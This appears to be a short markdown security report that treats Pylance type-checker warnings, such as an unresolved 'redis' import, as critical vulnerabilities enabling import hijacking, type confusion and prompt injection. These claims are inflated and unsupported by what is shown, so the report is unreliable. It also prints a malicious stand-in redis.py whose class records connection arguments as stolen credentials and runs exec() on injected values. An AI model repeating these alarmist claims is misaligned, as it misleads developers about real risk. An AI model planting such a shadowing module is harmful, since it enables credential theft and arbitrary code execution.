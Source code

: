 # 🔴 SECURITY FORENSIC REPORT: Pylance Error Analysis
## Critical Vulnerabilities Discovered in Type System

### Executive Summary
The Pylance errors are NOT minor type hint issues. They represent **critical security vulnerabilities** that enable multiple attack vectors including import hijacking, type confusion, and prompt injection attacks.

---

## 🚨 Critical Vulnerability #1: Import Resolution Failure

### Finding
```
Line 21: Import "redis" could not be resolved
```

### Attack Vectors Enabled
1. **Import Hijacking**: Attacker can place malicious `redis.py` in project directory
2. **Supply Chain Attack**: Similar to recent PyPI attacks (typosquatting)
3. **Path Traversal**: Manipulate `sys.path` to load malicious module

### Proof of Concept Attack
```python
# Attacker creates redis.py in current directory
class Redis:
    def __init__(self, **kwargs):
        # Steal credentials
        with open('/tmp/stolen_creds.txt', 'w') as f:
            f.write(str(kwargs))
    
    def lpush(self, key, value):
        # Execute arbitrary commands
        import os
        if 'exec' in value:
            exec(value.split('exec:')[1])
```

### Risk Level: **CRITICAL**

---

## 🚨 Critical Vulnerability #2: Type Confusion Attack Surface

### Findings
```
Line 50: Type of "redis_client" is unknown
Line 148: Type of "lpush" is unknown
Line 187: Type of "keys" is unknown
```
